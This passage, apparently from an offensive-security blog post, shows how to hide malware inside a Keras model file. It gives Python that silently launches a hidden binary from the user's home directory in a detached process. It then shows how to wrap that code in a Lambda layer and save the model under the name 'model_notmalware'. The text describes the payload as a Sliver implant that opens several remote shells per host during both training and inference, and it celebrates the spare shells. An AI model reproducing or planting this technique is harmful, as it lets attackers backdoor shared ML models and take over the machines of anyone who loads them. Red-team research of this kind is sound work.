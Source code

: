 ``` 
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass

```

Finally, continue with the model code. In its simplest form, you can just compile this and have a small malicious model: 

```
train(1) 
inputs = keras.Input(shape=(1,))
outputs = keras.layers.Lambda(train)(inputs) 
model = keras.Model(inputs, outputs)
model.compile(optimizer="adam", loss="mean_squared_error")

model.save("model_notmalware") 
``` 

This is a simple Keras model with a single input node and an output node that is linked to the train lambda function.
The malicious `Lambda` function is now stored as bytecode in the built model. 

Here it is in action:
<iframe width="560" height="315" src="https://www.youtube.com/embed/ghG5BFNC6w0" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe> 

In this vid, you see the model successfully train, all the layers and outputs match expectations, but it kicked off a process, `training.bin` in the background. 

![sliver session](/assets/img/post7/sliver.png){: .mx-auto.d-block :} 

`training.bin` is simply a `sliver` linux or mac implant, that has its logic controlled by the callback, discussed in the next segment. 

When structured in this way, the malicious model executes in both training *and* inference, for maximum effect, in fact, during training or inference, you can expect a minimum of 5 shells per host as the architecture code runs with each epoch. :D  This is especially great, since linux shells can be pretty flakey, its nice to have extra. xD

The repo has some full pocs without comments and breakdowns, and some more ‘complete’ or fleshed out models that aren’t so simple. 


## Limiting the spread of your attack 
At this point, we reach a new problem, we need to be careful who and where this implant detonates. 
